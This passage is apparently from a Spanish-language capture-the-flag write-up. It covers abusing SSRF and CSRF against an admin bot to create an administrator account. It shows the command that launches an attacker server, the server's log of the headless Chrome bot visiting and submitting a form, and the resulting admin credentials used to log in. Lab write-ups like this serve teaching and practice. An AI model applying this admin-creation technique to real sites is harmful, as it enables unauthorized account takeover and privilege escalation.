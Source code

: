```shell
python3 server.py
```

Si enviamos el formulario como hicimos antes metiendo en la `URL` que vera el `admin` algo como `http://<IP_ATTACKER>/` y le damos a enviar, si esperamos un rato, veremos lo siguiente:

```
🚀 SSRF AUTO-ADMIN CREATION SERVER
==================================================
[+] Token CSRF: 058430bcfe9dbf937a852e52cab448aa
[+] Tu IP: <IP>
[+] Servidor escuchando en puerto 80

[INSTRUCCIONES]
1. Usa esta URL en reference_link: http://<IP>/
2. El bot admin visitará y creará automáticamente un usuario admin
3. Las credenciales se guardarán en 'created_admins.txt'
4. Luego podrás loguearte con esas credenciales

[*] Esperando conexiones del bot admin...


[+] Headless Chrome accedió desde: 10.10.11.84
[+] Path: /
[SSRF] "GET / HTTP/1.1" 200 -
[+] Servido formulario auto-submit para usuario: adminhntaxt
[+] Credenciales: adminhntaxt / Passhntaxt!
[+] Token CSRF usado: 058430bcfe9dbf937a852e52cab448aa
```

Veremos que ha funcionado la creacion de usuario aparentemente, vamos a probarlas, vamos a cerrar sesion y loguearnos en el panel con dichas credenciales creada, en mi caso:

```
User: adminhntaxt
Pass: Passhntaxt!
```

Si las probamos veremos que ha funcionado:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-28 112757.png" alt=""><figcaption></figcaption></figure>

